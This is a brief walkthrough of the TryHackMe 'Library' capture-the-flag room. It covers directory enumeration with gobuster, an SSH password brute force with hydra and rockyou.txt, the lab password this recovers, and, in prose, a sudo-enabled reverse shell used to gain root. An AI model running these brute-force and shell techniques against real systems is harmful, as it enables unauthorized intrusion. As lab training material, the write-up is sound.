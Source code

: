 ```yaml
---
title: Walkthrough - Library
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

* * *

## Notes

```
Discovered open port 22/tcp on 10.10.33.54
Discovered open port 80/tcp on 10.10.33.54
```

- `gobuster dir -u http://library.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error`

```
/images               (Status: 301) [Size: 311] [--> http://library.thm/images/]
/robots.txt           (Status: 200) [Size: 33]     
```

- inside robots.txt

```
User-agent: rockyou 
Disallow: /
```

Nothing useful here.

We can use the username meliodas on the homepage to try to brute ssh.

- `hydra -l meliodas -P /usr/share/seclists/Passwords/rockyou.txt 10.10.33.54 ssh`

```
[22][ssh] host: 10.10.33.54   login: meliodas   password: iloveyou1
```

checking sudo -l we can see the user can run the python script as sudo so deleting the file and remaking a new one with a reverse shell lets us connect and collect our flags.

* * * 

## What is the content of root.txt?

![0xskar](/assets/library01.png)

* * * 

